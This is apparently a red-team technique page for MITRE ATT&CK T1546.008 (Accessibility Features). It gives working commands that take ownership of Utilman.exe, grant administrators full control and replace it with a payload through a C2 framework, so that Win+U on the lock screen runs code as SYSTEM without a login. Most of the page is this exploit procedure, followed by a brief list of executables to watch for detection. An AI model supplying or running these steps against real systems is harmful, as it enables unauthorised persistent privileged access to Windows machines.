 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## Exploit syntax:

1. Get a beacon with administrative privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the \<payload path> to the payload location on the victim box
    ```sh
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as NoobNoob.ps1 to /tmp
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```sh
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges. 

### This will not give you an administrator prompt

## Detection Technique:

* Observe common Windows Accessibility Features executables
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe